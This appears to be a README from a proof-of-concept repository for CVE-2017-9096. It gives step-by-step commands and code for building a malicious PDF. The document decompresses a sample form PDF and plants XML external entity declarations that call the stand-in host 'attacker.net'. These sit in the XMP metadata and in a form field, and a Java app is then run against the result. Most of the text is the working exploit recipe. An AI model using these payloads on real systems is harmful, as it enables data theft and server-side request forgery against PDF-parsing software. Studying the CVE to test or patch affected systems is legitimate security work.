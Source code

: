 # CVE-2017-9096

## 1. Creating the malicious PDF containing XXE
Get a PDF containing a form:
```
wget https://www.pdfscripting.com/public/FreeStuff/PDFSamples/ModifySubmit_Example.pdf -O input.pdf
```

### Decompress PDF
To do that you need to decompress the PDF with `qpdf --qdf --object-streams=disable input.pdf output.pdf` then you can edit the PDF with a text editor and add malicious XML.

### Add the external entities
You can put XEE to the XMP metadata in line 77:
```
stream
<?xpacket begin="ï»¿" id="W5M0MpCehiHzreSzNTczkc9d"?>
<!DOCTYPE foo [ <!ENTITY xxe2 SYSTEM "http://attacker.net" > ]>
<x:xmpmeta xmlns:x="adobe:ns:meta/" x:xmptk="Adobe XMP Core 4.0-c321 44.398116, Tue Aug 04 2009 14:24:39">
```

And of course put the reference too to somewhere, e.g. line 88:
```
<xap:CreatorTool>Adobe LiveCycle Designer 8.0 &xxe2;</xap:CreatorTool>
```

You can also add a common XXE to the file.
See this part in the original document (starts at line 740):
```
stream
<?xml version="1.0" encoding="UTF-8"?>
<xdp:xdp xmlns:xdp="http://ns.adobe.com/xdp/">
endstream
endobj
```

Change it to the following:
```
stream
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://attacker.net" > ]>
<xdp:xdp xmlns:xdp="http://ns.adobe.com/xdp/">
endstream
endobj
```

Then, just add the reference to somewhere, eg. to the City field (line 1845 in the original decompressed document). Change this:
```
<text
>City:</text
></value
>
```
To this:
```
<text
>City:</text
><xxe>&xxe;</xxe></value
>
```

You find the patched PDF containing both XXE in this repo too (`output_with_xxe.pdf`)

## 2. Perform attack
Run the Java app to test the PDF with `mvn clean compile exec:java`.